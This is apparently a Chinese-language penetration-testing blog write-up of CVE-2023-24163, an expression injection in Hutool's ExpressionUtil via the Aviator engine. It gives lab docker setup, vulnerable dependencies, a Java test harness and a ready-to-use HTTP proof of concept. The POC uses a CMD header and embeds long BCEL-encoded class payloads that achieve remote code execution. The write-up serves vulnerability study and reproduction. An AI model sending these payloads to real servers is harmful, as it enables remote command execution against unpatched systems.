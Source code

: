 ```yaml
---
title: Dromara_hutool_aviator表达式注入漏洞（CVE-2023-24163）
date: 2024-03-13 18:53:00 +0800
img_path: /
categories: [肾透, 漏洞利用]
tags: [肾透, 漏洞利用]     
---
```


# Dromara_hutool_aviator表达式注入漏洞（CVE-2023-24163）

## 1 漏洞简介

`Hutool`是一个功能丰富且易用的**Java工具库**，通过诸多实用工具类的使用，旨在帮助开发者快速、便捷地完成各类开发任务。 这些封装的工具涵盖了字符串、数字、集合、编码、日期、文件、IO、加密、数据库JDBC、JSON、HTTP客户端等一系列操作， 可以满足各种不同的开发需求。

`Dromara hutool v5.8.11 `中的 SQL 注入漏洞允许攻击者通过 `aviator` 模板引擎执行任意代码。

## 2 影响范围

hutool  <= v5.8.11

## 3 环境搭建

### 3.1 导入docker image

```bash
docker load -i polarvul_dromara_hutool_cve-2023-24163.tar
```

### 3.2 启动容器

```bash
docker run -d --name polarvul_dromara_hutool_cve-2023-24163 -p 10001:8080 polarvul_dromara_hutool_cve-2023-24163:vul
```

## 4 漏洞分析

测试环境：JDK<=JDK8u251 ，maven

`pom.xml`依赖：

```xml
    <dependencies>
        <!-- https://mvnrepository.com/artifact/com.googlecode.aviator/aviator -->
        <dependency>
            <groupId>com.googlecode.aviator</groupId>
            <artifactId>aviator</artifactId>
            <version>5.3.3</version>
        </dependency>
        <dependency>
            <groupId>cn.hutool</groupId>
            <artifactId>hutool-all</artifactId>
            <version>5.8.4</version>
        </dependency>
    </dependencies>
```

测试代码：

```java
import cn.hutool.extra.expression.ExpressionUtil;

public class Main {
    public static void main(String[] args) {
        String exp = "Class.forName(\"$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeP$cbN$c2$40$U$3d$D$85B$zo$f1$fdb$r$b8$a0$hw$Q7$8a$h$f0$R1$b8$$$e3$E$HKKJ$n$fc$91k6j$5c$f8$B$7e$94$f1N$r$80$b1I$ef$c9$3ds$k$9d$7e$7d$7f$7c$C8E$c9$80$8eu$DEl$q$b0$a9pK$c7$b6$8e$j$j$bb$M$f1$batep$c6$Q$zW$3a$M$da$b9$f7$u$Y2$z$e9$8a$eb$f1$a0$x$fc$7b$bb$eb$Q$93oy$dcv$3a$b6$_$d5$3e$t$b5$e0I$8e$94$da$f3$7b$d6$85$YxVc$o$9d$gC$a2$ce$9dyn$aa$j$d8$fc$f9$ca$k$86$kjf0$da$de$d8$e7$e2R$aa$8c$a4$b2T$fb$f6$c46$91$40R$c7$9e$89$7d$iP$G$f5$f1$aa$98$K$T$878b$u$u$8d$e5$d8n$cfjL$b9$Y$G$d2s$v$feO5Cv$a9$ba$e9$f6$F$P$YrK$ean$ec$Gr$40$adFO$E$8b$a5X$ae$b4$fei$e8$W$g$95s$86$e3$f2$cai$3b$f0$a5$db$ab$ad$gn$7d$8f$8b$d1$a8$86$S$e2$f4$ab$d5$T$BS$97$a1i$d0f$R2$c2$d8$c9$h$d8$y$3c$5e$a3$Z$P$c9$uL$9a$e6$af$A$v$a4$J$T$c8$y$cc$cd0$MH$bf$p$92$8f$beB$7bx$81$d6$9c$85$5c$92$7c1JPiiB$95$99$a4OHQ$82$Z$f6$AYzuDZ$3ar$mS$3e$a4$L$3f$qO$d5$f4$k$C$A$A\",true,new com.sun.org.apache.bcel.internal.util.ClassLoader());";
        final Object eval = ExpressionUtil.eval(exp, null);
        System.out.println(eval);
    }
}
```

该漏洞存在于`hutool`中`ExpressionUtil`这个类，该类是用来处理表达式的而且使用 ***Aviator*** 模板引擎，当解析不受信任表达式字符串时，可能容易受到代码执行攻击（CVE-2021-41862），尽管使用是 ***Aviator*** 当前最新的版本(***5.3.3***)依然会受影响。

![image-20240312163225776](assets/image-20240312163225776.png)

下方可以看到`this.engine`其实是`AviatorEvaluator.getInstance()`而当传入的`expression`可控，这里就可以集合`CVE-2021-41862`这个漏洞造成RCE。

![image-20240312163316396](assets/image-20240312163316396.png)

结合BCEL可实现加载任意类。BCEL `Classloader`在 JDK < 8u251之前是在rt.jar里面，所以要求`JDK < 8u251`。

BCEL具体介绍：https://www.leavesongs.com/PENETRATION/where-is-bcel-classloader.html#/



## 5 漏洞复现

根据上方，定位到漏洞点，且`Expression`可通过控制`Json`控制。

![image-20240312170826460](assets/image-20240312170826460.png)

POC：

```poc
POST /loadConfig HTTP/1.1
Host: xxx.xxx.xxx.xxx:xxx
CMD: whoami
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*

{"Expression":"Class.forName(\"$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$d9$7b$TU$U$ff$dd6$c9L$a7$D$a5iK$h$f6E$miiB$d9i$xR$dab$91$b4$m$v$d4RP$t$d3$dbv$e8d$sL$s$a5$e0$be$x$ee$h$8a$b8$n$w$fa$f9$c4K$e8$a7$l$7c$3e$fb$a0$_$be$fa$e4$93$be$f8$l$88$e7f$SHhP$fb$7d$3d$f7$de$b3$dc$b3$fc$ce$b9$93$9f$fe$fe$fe$G$80$ad$f8VA$N$O$vx$Q$87$FI$c8$YVp$EGe$8cHxH$81$84Q$J$c7$U$8c$e1$b8$8c$T2$k$96$f1$88$8cGehB$96$94$a1$cb$Y$97$c0$85$c6$84$8cI$ZS$K$M$9cT$d0$80i$Z$a6XS2$y$Z$b6$8c$b4pvJ$86$p$n$a3$c0EV$90$Z$F$a71$ab$60$V$ce$c88$x$d6$c7$Ey$5c$c6$T2$9e$94$f0$94$82V$3c$z$e1$Z$86$40$b7a$Z$een$86$eap$e4$u$83$af$d7$k$e7$Muq$c3$e2C$d9T$92$3b$c3Z$d2$qN0n$eb$9ayTs$Mq$$0$7d$ee$94$91aX$Y$b7$9d$c9X$lO$d9$b1$fe$d9t$X$83$dc$ad$9b$85k$abf61$d4$c7Oj3Z$cc$d4$ac$c9X$af$a9e2$5dB$d0$c1$b0$a4D$e0$f0$J$93$ebnl$90$bbS$f6x$5ec$b3$f0$7b$5b$e3$60$f2$q$v$e4$r$5b$E$d9$w$c86A$b6$L$b2C$90$9d$82$ec$w$b7K$b8$8eaM$92$5d$f5L$HE$d30VI$e6$9f$d1$9c$O$K$a9$a9D$d8$3f$ab$f3$b4k$d8$W$c9$X$q$5cM$9f$k$d4$d2$f9$dc$JH$J$cf$S$8c$84$93$84$3e$w$v$83$92$b0$b3$8e$ce$f7$Z$a242U$o$wnR$d1$8e$a8$84$e7T$3c$8f$XT$bc$88$97$Y$ba$a9$5e$d1LZx$9ep$b4$U$3fm$3b$d3$d1$d3$3c$Z$d5m$cb$e5$b3n$d4$e1$a7$b2$3c$e3F$P$7bk$af$c7$k$b0$cdqN$40$bf$ac$e2$V$9cch$9c$e4nA$a3$c7$a5$3c$92Y$97$T$iuw$U$5b$c5$abx$8da$d1$9d$85$a4$ET$bc$8e7$Y$f6$fc$dfx$S$dc$991$x$3a$ad$cd$c7$92I$dbV$86$b2WnG$c6$b0$5c8$9e$8df$3c$db$dbw$U$95kHy$c41$5c$ee$a8xSD$ba$ae$dc$60$cau$d3$d1$B$o$e5$de$3d$c3$B$aeQM$ca$b2$f3$mU$f1$W$de$s$c8$f5$d48$83dg$a2$W$r$s$e1$j$V$ef$e2$3d$V$ef$e3$3c$JG$f6$P$a9$f8$A$lR$d3$c4tR$8b$r$N$x$96$99$a2c$bb$ae$e2$C$3e$o$9e$u$8bkZ$d4$c5y$XY$d70c$J$5d$b3$y$B$c5E$V$l$e3$T$V$9f$e23$J$9f$ab$b8$84$_$E$e0$97$e9$86$e3$3d$w$be$c4W$w$be$W$ae$fc$TfV$5c$ec$d7M$db$a2$a4$h$wt$99$8a$x$f8$86A$z$9d$s$86$96$bb$8dHY$d2$c3S$OU$82$daT$cf$3a$O$b7$dc$e2$b91$i$89$df$a9E$dd$dcD$a5$xtU$beG$e2$b6W$c6P$99z$89H$d8T$U$Q$M$sm$f2$i$82$$$3c$7f$b6$e6$dd$d8$e5AW$ccbO$F$9b$b1y6$91$7f$7b$w$C$865cOSYw$85$e7$bf$Xc$f3Y$91J$afJ$3d$c5$d4$c7uSs$f8x1$b6$F$Z$ee$f6$e8$3a$cfd$M$ef$c5$L$l$T$cfdi$b7$9d$c9$b8$3c$e5$N$c0$n$c7Ns$c7$3d$c3$b0$fe$3f$eap$eb$d9$a9u$ed$pi2$ea$d5$c4$u$94$a3uKI$Ws$a8$Z$W$Vxi$e9$c5$bdS$9a$93$Q$d3$60$e9$bc$xr$8c$U$F$ac$k$S$N$f3$91$ec$w$f6p$9eu8k$b9F$aa8$ac$c5CS$99Y$81M$86$3e$3e$cbiB$c2$e1$K$8fg$a9$F$95$40T$ab$dcU$81I_$Kr$b5$dfJg$5d$b2$e4$gU$ad$b9$e8$ce$b0c$r$C2o$JW$U$88$ea$ab$d9$M$ef$e3$a6$91$So$G$c3$86$bb$d7$batXE$S$W$f5$3b$81JQ$e4_$f3aG$d3$v$e7U$e1HyVEQ$bf$c9S4K$5dX$8d$8d$f4$99$V$7fU$60$e2A$t$g$a3S$8cVF$ab$bf$f5$g$d8$d5$bcx$T$d1$40$9e$a9$a2$pO$f3$K$d8$8c$z$b4$ca$f4$fb$a0$60$5c$f5$j$5dY$L0$7d$OU9T$H$7d9$f8$P$b4$G$D$d5$d7$n$e5$m$c7$db$Y$edjrP$G$L$K$b5$9e$82ZTh$N$$$ul$87$da6$Wt$3b$7d$ed$b7$b6$fe$82$ddB$b2$L$d6y$aa$8b$3a$D$Fn$bd$e0$G$7d$c4$j$ad$O6$q$84H$KI$UDc$u$e0$d1$90$afx$93$i$92B$7eR$ad$n$d5$sRU$7eDCgM$e0$3aQ$r$b8x$O$cd9$b4$EC9$y$b9$80$60H$R$3a$n$c5$X$5c$9a$b8$82$3aq$5c$96$3f$$$t$ea$P$d5$qBr$O$x$82$xK$3d$87d$ef$f2$l$b0jt$O$abCJ$OkrX$7b$N$f7$E$d7$e5$b0$3e$87$N$c2$e9$88g$Z$$d$S$92$L$e1$V$f8$91y$fc$x$a89$d0$9aC$db$c8U$B$C$he$c7$e9wOu$k$o$H$cb$88$d6$R$3c$8b$d0$8czB8H$b86$60$t$g$d1$8b$s$Ma1FIb$a3$F$e7$Q$a2$8f$c9$S$9c$c7R$5c$s$bb9$y$c7$N$ac$c0$cfX$89_$e9w$d5oX$83$df$b1$W$7f$60$3d$fe$c2$G$WA$98$f5$m$c2F$d1N$k$db$d8$JldI$82$5d$b4$c3Y$f2$a8$b2Al$c3v$3a5$b3$bd$d8A$3e$ZV$b3$9d$d8$85Nj$a0$5e$b6$Y$5d$c4$ab$c6$Q$abE7$f1$7c$Y$a5$f0$ef$a5$9d$9f$e2$f9$T$bbI$g$a0$a8$7e$c1$7d$b4$93$u$a6$i$f6$90T$a6$c8$$$a1$H$7b$a9$b1n$e0$o$e5$d1$H$85$bc$fb$d1$8f$7d$e4$ed$7e$fa$df$O$dfM$K$b8V$c2$80$84$fd$S$k$uRo$e3$ed$PH$88$D$b57$a9JT6$J$83$7e$8ap$u$df$de$H$ff$BJ$p2$3f$e7$K$A$A\",true,new com.sun.org.apache.bcel.internal.util.ClassLoader());"}
```

![image-20240312171122326](assets/image-20240312171122326.png)




